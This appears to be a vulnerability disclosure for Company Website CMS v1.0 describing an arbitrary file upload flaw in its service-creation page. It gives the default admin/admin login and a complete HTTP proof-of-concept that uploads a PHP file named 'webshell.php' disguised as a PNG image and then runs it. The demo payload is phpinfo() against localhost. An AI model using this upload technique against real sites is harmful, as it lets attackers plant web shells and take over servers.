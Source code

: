 # The Company Website CMS v1.0 developed by Torrahclef has an arbitrary file upload vulnerability
## vendors: [https://www.sourcecodester.com/php/11206/church-management-system.html](https://www.sourcecodester.com/php/15517/company-website-cms-php.html)

## Login account: admin/admin (Super Admin account)

## Vulnerability url: http://127.0.0.1/vogue/dashboard/createservice

## Loophole location: /dashboard/add-service.php has an arbitrary file upload vulnerability
## The program is built using the xmapp-php8.1 version

## process:
1、Use the admin and admin accounts to log in to the background system
![image](https://user-images.githubusercontent.com/88701694/196492985-16a1b8b2-5eb2-48f7-a216-edf0823e6409.png)
2、The construct POC successfully uploaded the php file
poc：
```
POST /vogue/dashboard/createservice HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------120472908621194155141824599930
Content-Length: 777
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createservice
Cookie: PHPSESSID=e2s3ah89nov4updrl625trke71
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_title"

2222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_desc"

22222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_detail"

222222222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="ufile"; filename="webshell.php"
Content-Type: image/png

<?php phpinfo(); ?>
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="save"


-----------------------------120472908621194155141824599930--
```

![image](https://user-images.githubusercontent.com/88701694/196493351-c294f1f1-3fec-4a0f-8145-d440cd95967f.png)
3、Come to the front page, you can see the content you created under "services" at the bottom of the page, click in, and access the picture. Executing the script successfully
![image](https://user-images.githubusercontent.com/88701694/196496197-156415f8-ec28-47c0-a1d0-7d5893d74443.png)
![image](https://user-images.githubusercontent.com/88701694/196496227-58a609ac-f364-4a5c-8cd5-f680bfcb1561.png)
